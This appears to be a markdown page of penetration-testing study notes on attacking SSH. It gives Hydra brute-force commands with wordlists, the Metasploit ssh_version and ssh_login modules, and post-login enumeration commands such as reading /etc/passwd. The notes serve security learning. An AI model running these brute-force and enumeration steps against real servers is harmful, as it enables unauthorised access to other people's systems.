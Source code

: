 # Exploiting SSH
> SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet. SSH is typically used for remote access to servers and system. 

SSH Default Port: `22`

## Contents
- [Intro](#intro)
- [Hydra: Brute Force](#hydra-brute-force)
- [MetaSploit](#metasploit)
  - [SSH Version Info](#ssh-version-info)
  - [SSH Login: Brute Force](#ssh-login-brute-force)

## Intro

- SSH used TCP port 22 by default, however (like many other services) it can be configured to use any other open TCP port.
- SSH authentication can be configured in two ways:
  - Username and password authentication
    - Therefore, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.
  - Key-based authentication (no username/password)
    - The user's public key is copied to the server
    - The user's private key is used to login

## [Hydra](../../hydra.md): Brute Force
```
hydra -L /usr/share/.../common_users.txt -P /usr/share/.../unix_passwords.txt -t 4 ssh://[target ip]
or
hydra -L /usr/share/.../common_users.txt -P /usr/share/.../unix_passwords.txt -t 4 [target ip] ssh
```
- `-t 4` : Limits the number of threads so you don't DoS the SSH server.
- If this gets you logins, try them out: 
```
ssh [remote_username]@[remote_host]
```
- Then enumerate basic info: `whoami`, `groups sysadmin`, `cat /etc/*issue`, `uname -r`, `cat /etc/passwd`

## MetaSploit

### SSH Version Info
```
> use auxiliary/scanner/ssh/ssh_version
```
- Use the results to Google around and see if the version is vulnerable.

### SSH Login: Brute Force
```
> use auxiliary/scanner/ssh/ssh_login
```
- username dictionary (one of many): /usr/share/metasploit-framework/data/wordlists/common_users.txt
- password dctionary (one of many): /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
- If MSF finds login cred pairs, it will use them to open sessions on each one it finds.
